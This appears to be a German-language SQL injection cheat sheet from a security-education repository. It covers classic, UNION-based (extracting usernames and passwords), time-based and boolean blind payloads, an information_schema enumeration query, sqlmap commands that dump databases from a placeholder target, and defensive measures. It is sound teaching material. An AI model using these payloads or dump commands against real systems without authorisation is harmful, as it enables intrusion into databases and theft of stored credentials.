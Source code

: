 # SQL Injection Cheat Sheet

## 🕵️ Was ist eine SQL-Injection?

SQL-Injection (SQLi) ist eine Schwachstelle in Webanwendungen, bei der Angreifer schädlichen SQL-Code einschleusen, um mit der Datenbank zu interagieren. Ziel ist es, Daten zu lesen, ändern oder löschen, ohne Berechtigung zu haben.

---

## 📄 Grundlegende Arten von SQL-Injections

| Typ                   | Beschreibung                                                    |
| --------------------- | --------------------------------------------------------------- |
| Klassische SQLi       | Direkte Einspeisung in SQL-Abfrage                              |
| Blind SQLi            | Keine Fehlermeldung oder Ausgabe, aber Verhalten verändert sich |
| Time-Based Blind SQLi | Antwortzeit zeigt an, ob Abfrage erfolgreich war                |
| Union-Based SQLi      | Verwendung von UNION zur Datenabfrage                           |
| Error-Based SQLi      | Nutzt Fehlermeldungen zur Informationsgewinnung                 |

---

## ⚡ Beispiele für SQL-Injection Payloads

### 1. Klassische Injection

```sql
' OR '1'='1
admin' --
```

### 2. Union-Based

```sql
' UNION SELECT null, username, password FROM users --
```

### 3. Time-Based (MySQL)

```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 4. Blind SQLi (Boolean)

```sql
' AND 1=1 -- (wird akzeptiert)
' AND 1=2 -- (wird abgelehnt)
```

---

## 🔎 Wichtige SQL-Befehle zur Ausnutzung

| Befehl               | Zweck                                   |
| -------------------- | --------------------------------------- |
| `SELECT`             | Daten abfragen                          |
| `UNION`              | Daten aus mehreren Abfragen kombinieren |
| `INSERT`, `UPDATE`   | Daten manipulieren                      |
| `DELETE`             | Daten löschen                           |
| `INFORMATION_SCHEMA` | Metadaten zur Datenbank anzeigen        |

Beispiel:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
```

---

## 🧱 Schutz vor SQL-Injection

* ✅ Prepared Statements / Parameterized Queries verwenden (z. B. `PDO`, `mysqli` in PHP)
* ✅ Eingaben validieren und escapen
* ✅ Least Privilege Prinzip in der Datenbank anwenden
* ✅ Fehlerausgaben vermeiden oder loggen
* ✅ WAF (Web Application Firewall) einsetzen

---

## ⚔️ Nützliche Tools zur SQLi-Analyse

| Tool         | Funktion                                       |
| ------------ | ---------------------------------------------- |
| `sqlmap`     | Automatisierte SQLi-Tests und Exploits         |
| `Burp Suite` | Manuelles Testen und Modifizieren von Requests |
| `ZAP`        | Open Source Scanner für Webanwendungen         |
| `DVWA`       | Testumgebung für Web Security                  |

---

## ⛔ Beispiel: SQL-Injection mit sqlmap

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --batch --dbs
```

Weitere Beispiele:

```bash
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=admin" --dump
```

---

## 🕵️‍♂️ Fazit

SQL-Injections sind eine der ältesten, aber immer noch häufigsten Sicherheitslücken im Web. Mit ausreichendem Wissen und den richtigen Tools lassen sich diese erkennen, ausnutzen und vor allem vermeiden.

**Ziel:** Erkennen, verstehen und absichern.

---

## ⚠️ Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/cybersercurity/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** Juli 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
